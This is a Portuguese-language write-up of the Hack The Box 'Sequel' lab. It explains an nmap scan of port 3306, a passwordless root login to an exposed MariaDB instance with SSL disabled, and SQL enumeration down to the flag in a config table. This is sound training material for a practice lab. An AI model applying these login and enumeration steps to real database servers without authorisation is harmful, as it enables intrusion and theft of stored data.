

# Hack The Box — Starting Point — Sequel

## Resumo

Neste lab, o objetivo foi enumerar um serviço de banco de dados MySQL/MariaDB exposto, acessar a instância com credenciais fracas e localizar a flag dentro de uma tabela do banco.

O ponto principal do lab foi entender o fluxo básico de enumeração em MySQL/MariaDB:

```text
Serviço aberto → Banco de dados → Tabelas → Colunas → Dados
```

## Informações do alvo

```text
Target: 10.129.95.232
Serviço principal: MariaDB/MySQL
Porta: 3306/tcp
```

## 1. Enumeração com Nmap

Primeiro foi feito o scan da porta do MySQL/MariaDB:

```bash
nmap -sV -p 3306 10.129.95.232
```

Explicação dos parâmetros:

```text
-sV       Detecta o serviço e a versão
-p 3306   Escaneia somente a porta 3306
```

A porta `3306/tcp` é a porta padrão do MySQL/MariaDB.

O Nmap identificou que o serviço rodando era uma instância MariaDB.

## 2. Tentativa de conexão

A conexão foi feita com o cliente MySQL/MariaDB:

```bash
mysql -u root -h 10.129.95.232
```

Explicação:

```text
mysql     Cliente de linha de comando MySQL/MariaDB
-u root   Define o usuário como root
-h        Define o host/IP do servidor
```

A primeira tentativa retornou erro de SSL:

```text
ERROR 2026 (HY000): TLS/SSL error: SSL is required, but the server does not support it
```

Isso aconteceu porque o cliente tentou usar SSL, mas o servidor do lab não suportava.

A correção foi desabilitar SSL:

```bash
mysql -u root -h 10.129.95.232 --ssl=0
```

Com isso, o acesso foi realizado com sucesso sem senha.



## 3. Listando os bancos de dados

Depois de entrar no MariaDB, foi usado:

```sql
SHOW DATABASES;
```

Esse comando lista os bancos disponíveis na instância.

O resultado mostrou bancos padrão e um banco específico do lab:

```text
information_schema
mysql
performance_schema
htb
```

Os bancos comuns são:

```text
information_schema
mysql
performance_schema
```

O banco interessante era:

```text
htb
```

## 4. Selecionando o banco htb

Para interagir com o banco `htb`, foi usado:

```sql
USE htb;
```

Esse comando seleciona o banco de dados atual.

É parecido com entrar em uma pasta no Linux:

```bash
cd htb
```

Depois disso, os próximos comandos SQL passam a ser executados dentro do banco `htb`.

## 5. Listando as tabelas

Com o banco selecionado, foi usado:

```sql
SHOW TABLES;
```

Esse comando lista as tabelas dentro do banco atual.

O resultado mostrou:

```text
config
users
```

Ou seja, dentro do banco `htb` existiam duas tabelas principais.


## 6. Entendendo o DESCRIBE

Para entender a estrutura da tabela `config`, foi usado:

```sql
DESCRIBE config;
```

O `DESCRIBE` não mostra os dados da tabela.

Ele mostra apenas a estrutura, ou seja, quais colunas existem.

Resultado:

```text
Field   Type                  Null  Key  Default  Extra
id      bigint(20) unsigned   NO    PRI  NULL     auto_increment
name    text                  YES        NULL
value   text                  YES        NULL
```

Interpretação:

```text
id      Identificador de cada linha
name    Nome da configuração
value   Valor da configuração
```

Então a tabela `config` tinha uma estrutura parecida com:

```text
config
├── id
├── name
└── value
```

## 7. Lendo os dados da tabela

Depois de entender a estrutura da tabela, foi usado:

```sql
SELECT * FROM config;
```

Explicação:

```text
SELECT   Mostra dados
*        Todas as colunas
FROM     De qual tabela
config   Nome da tabela
```

Ou seja:

```text
Mostre todas as colunas da tabela config.
```

O resultado exibiu várias configurações:

```text
id | name                  | value
1  | timeout               | 60s
2  | security              | default
3  | auto_logon            | false
4  | max_size              | 2M
5  | flag                  | <FLAG>
6  | enable_uploads        | false
7  | authentication_method | radius
```

A flag estava armazenada na linha em que a coluna `name` tinha o valor `flag`.

## 8. Comando direto para pegar a flag

Depois de saber onde a flag estava, também seria possível consultar diretamente:

```sql
SELECT value FROM config WHERE name='flag';
```

Esse comando é mais limpo do que `SELECT *`, porque retorna apenas o valor da flag.

## Conceitos aprendidos

### Porta 3306

A porta `3306/tcp` normalmente indica MySQL ou MariaDB.

### MariaDB

MariaDB é uma versão comunitária/derivada do MySQL.

### `-u`

No cliente MySQL/MariaDB, o parâmetro `-u` define o usuário:

```bash
mysql -u root
```

### `-h`

O parâmetro `-h` define o host/IP do servidor:

```bash
mysql -h 10.129.95.232
```

### `--ssl=0`

Desabilita SSL na conexão:

```bash
mysql -u root -h 10.129.95.232 --ssl=0
```

### `SHOW DATABASES;`

Lista os bancos de dados existentes.

### `USE htb;`

Seleciona o banco `htb`.

### `SHOW TABLES;`

Lista as tabelas dentro do banco selecionado.

### `DESCRIBE config;`

Mostra a estrutura da tabela, ou seja, suas colunas e tipos.

### `SELECT * FROM config;`

Mostra todos os dados da tabela `config`.

## Fluxo final

```text
1. Escanear porta 3306 com Nmap
2. Identificar MariaDB
3. Conectar com usuário root
4. Desabilitar SSL com --ssl=0
5. Listar bancos com SHOW DATABASES;
6. Selecionar htb com USE htb;
7. Listar tabelas com SHOW TABLES;
8. Ver estrutura com DESCRIBE config;
9. Ler dados com SELECT * FROM config;
10. Encontrar a flag
```

## Conclusão

O lab mostrou uma falha simples, mas muito importante: uma instância MariaDB exposta permitindo login como `root` sem senha.

O aprendizado principal foi a enumeração básica de banco de dados:

```text
Banco → Tabela → Colunas → Dados
```

Esse fluxo é essencial em labs, CTFs e também em ambientes reais autorizados.
